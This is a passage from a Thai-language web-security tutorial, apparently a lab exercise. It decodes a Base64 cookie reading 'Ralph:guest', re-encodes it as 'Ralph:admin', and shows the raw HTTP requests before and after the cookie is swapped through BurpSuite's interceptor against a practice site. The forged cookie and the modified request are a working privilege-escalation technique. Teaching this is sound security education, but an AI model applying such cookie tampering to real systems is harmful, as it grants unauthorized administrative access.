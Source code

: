 พบจุดที่น่าสงสัยใน Cookie ตรงจุด user=UmFscGg6Z3Vlc3Q= หากสังเกตุดี ๆ พบว่า String ของตัวแปร user นั้นได้ถูก encode ด้วย Base64 จากนั้นไปที่แถบ Decoder แล้วนำค่า UmFscGg6Z3Vlc3Q= ไป decode

\begin{figure}[h!]
	\centering
	\texttt{[image: b64decodecookie.png]}
	\caption{Base64 Decode ค่าของ UmFscGg6Z3Vlc3Q= ได้ Ralph:guest}
	\label{Fig:b64decodecookie.png}
\end{figure}

ได้ผลลัพธ์ออกมาเป็น Ralph:guest ซึ่งการที่เว็บแอปพลิเคชันใช้ Cookie เป็นตัวเก็บข้อมูลของผู้ใช้ใน HTTP Request นั้น ๆ ไม่ปลอดภัย เพราะว่าผู้ใช้สามารถเปลี่ยนแปลง Cookie ได้ตามใจชอบ ถ้าหากผู้ใช้เปลี่ยน Cookie เป็น Ralph:admin จะเกิดอะไรขึ้น?


\begin{figure}[h!]
	\centering
	\texttt{[image: base64enccookie.png]}
	\caption{เปลี่ยนค่าจาก Ralph:guest เป็น Ralph:admin แล้ว Base64 Encode}
	\label{Fig:base64enccookie.png}
\end{figure}

เมื่อนำ Ralph:admin เข้าไป encode ด้วย Base64 จะได้ออกมาเป็น UmFscGg6YWRtaW4= แล้วลองนำค่านี้ไปใส่ใน Cookie ตอนที่ Browser กำลัง Request โดยใช้ BurpSuite ดัดแปลง HTTP Header

ไปที่ Proxy > Intercept แล้วเปิด Intercept is on จากนั้น Refresh Browser ที่ URL http://vulnerable.com/ch5/cornhub.php จะเห็น HTTP Request ดังนี้

\begin{lstlisting}[numbers=none] 
GET /ch5/cornhub.php HTTP/1.1
Host: vulnerable.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html
Referer: http://vulnerable.com/ch5.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: <@\textcolor{red}{user=UmFscGg6Z3Vlc3Q=}@> ; PHPSESSID=ujoohfntudegar0jd0dq2cj624; security=low
Connection: close
\end{lstlisting}

จากนั้นแก้ไขจาก  user=UmFscGg6Z3Vlc3Q= ให้เป็น user=UmFscGg6YWRtaW4=

\begin{lstlisting}[numbers=none] 
GET /ch5/cornhub.php HTTP/1.1
Host: vulnerable.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html
Referer: http://vulnerable.com/ch5.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: <@\textcolor{red}{user=UmFscGg6YWRtaW4=}@> ; PHPSESSID=ujoohfntudegar0jd0dq2cj624; security=low
Connection: close
\end{lstlisting}

